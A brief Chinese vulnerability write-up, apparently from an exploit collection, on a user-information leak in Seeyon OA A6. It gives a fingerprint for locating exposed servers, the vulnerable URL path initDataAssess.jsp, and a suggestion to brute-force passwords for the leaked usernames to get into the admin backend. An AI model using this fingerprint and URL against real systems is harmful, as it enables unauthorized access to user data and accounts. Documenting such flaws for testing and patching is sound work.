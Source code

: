 # 致远OA A6 initDataAssess.jsp 用户敏感信息泄露

# 致远OA A6 initDataAssess.jsp 用户敏感信息泄露

## 洞描述

致远OA A6 initDataAssess.jsp 存在用户敏感信息泄露

可以通过得到的用户名爆破用户密码进入后台进一步攻击

## 漏洞影响

```
致远OA A6
```

## 网络测绘

```
title="致远A8+协同管理软件.A6"
```

## 漏洞复现

访问下列URL泄露用户信息

```
http://xxx.xxx.xxx.xxx/yyoa/assess/js/initDataAssess.jsp
```

